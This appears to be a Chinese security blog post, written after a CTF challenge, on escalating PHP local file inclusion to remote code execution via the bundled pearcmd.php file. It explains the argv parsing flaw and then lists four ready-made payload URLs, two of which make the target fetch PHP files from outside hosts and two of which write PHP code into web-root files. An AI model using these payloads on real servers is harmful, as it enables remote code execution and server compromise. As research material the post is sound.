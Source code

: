 date: 2020-10-20
categories:
- web
tags:
- LFI
- php
- web
- RCE
title: LFI利用php自带的pearcmd.php直接RCE
---
# LFI利用php自带的pearcmd.php直接RCE

在做巅峰极客的一题时，用到了包含pearcmd.php从而RCE的点（perlcmd.php也是一样的），今天来研究一下这个点

## 产生原因

阅读pearcmd.php中关于参数产生的那部分代码发现：

```php
...
if (!isset($_SERVER['argv']) && !isset($argv) && !isset($HTTP_SERVER_VARS['argv'])) {
    echo 'ERROR: either use the CLI php executable, ' .
         'or set register_argc_argv=On in php.ini';
    exit(1);
}

$argv = Console_Getopt::readPHPArgv();
...
array_shift($argv);//这里删除了第一个argv，通常argv[0]是程序名
...
```



`Getopt.php:readPHPArgv`

```php

    public static function readPHPArgv()
    {
        global $argv;
        if (!is_array($argv)) {
            if (!@is_array($_SERVER['argv'])) {
                if (!@is_array($GLOBALS['HTTP_SERVER_VARS']['argv'])) {
                    $msg = "Could not read cmd args (register_argc_argv=Off?)";
                    return PEAR::raiseError("Console_Getopt: " . $msg);
                }
                return $GLOBALS['HTTP_SERVER_VARS']['argv'];
            }
            return $_SERVER['argv'];
        }
        return $argv;
    }
```



我们发现这里的参数是从`$_SERVER['argv']`（旧版本的就是：`$GLOBALS['HTTP_SERVER_VARS']['argv']`）中获取的

我们来测试一下`$_SERVER['arvg']`,测试代码：`var_dump($_SERVER['argv']);`

访问http://127.0.0.1:60080/?1+2+3+4+%20+%dd

```
/var/www/html/index.php:4:
array (size=6)
  0 => string '1' (length=1)
  1 => string '2' (length=1)
  2 => string '3' (length=1)
  3 => string '4' (length=1)
  4 => string '%20' (length=3)
  5 => string '%dd' (length=3)
```

在$_SERVER['argv']中的所有url编码都不会被解析，只是当成普通字符串，而+会被解析成参数的分隔符

于是我们便可以像在命令行一样调用pearcmd.php了，接下来就变成了利用pearcmd这个命令getshell，直接命令行尝试（太懒了）

查看pearcmd.php的帮助：`php pearcmd.php [options] command [command-options] <parameters>`，那么我们传参就得变成

`url/?+[options]+command+[command-options]+<parameters>`，?后面必须跟一个+号让其作为$argv[0],这里要注意+号的数量，因为这是拿来作为分隔符的如：`?++`就会被解析成`["","",""]`



## 利用条件

![image1911](https://raw.githubusercontent.com/Explorersss/photo/master/20201020153757.png)

1. register_argc_argv=On（默认是开的）
2. 包含pearcmd.php或者peclcmd.php






## payload
这里直接给出payload，都是直接看帮助写出来的，没啥好说的。



exp1:

需要出网

```
http://192.168.43.230:60080/?+install+--installroot+/tmp/+http://ccreater.top:60006/evil.php++++++++++++++$&f=pearcmd.php&#把GET参数都塞到最后面
http://192.168.43.230:60080/?f=/tmp/tmp/pear/download/install.php
```



exp2:

需要出网

会下载到当前文件夹

```
http://192.168.43.230:60080/?+download+https://fuckyou.free.beeceptor.com/fuckyou.php+&f=pearcmd.php#都塞到最后面
http://192.168.43.230:60080/?f=fuckyou.php
```



exp3:

```php
http://192.168.43.230:60080/?+config-create+/<?=phpinfo();?>/*+/var/www/html/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php#把GET参数都塞到路径中，这里可以用url编码来防止空格,/等对文件生成造成影响的字符
http://192.168.43.230:60080/&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM.php
```



exp4:

**最好用**

```
http://192.168.43.230:60080/?+-c+/var/www/html/config2.php+-d+man_dir=<?phpinfo();?>/*+-s+list&f=pearcmd.php&XDEBUG_SESSION_START=PHPSTORM#参数塞到最后面
http://192.168.43.230:60080/config2.php
```

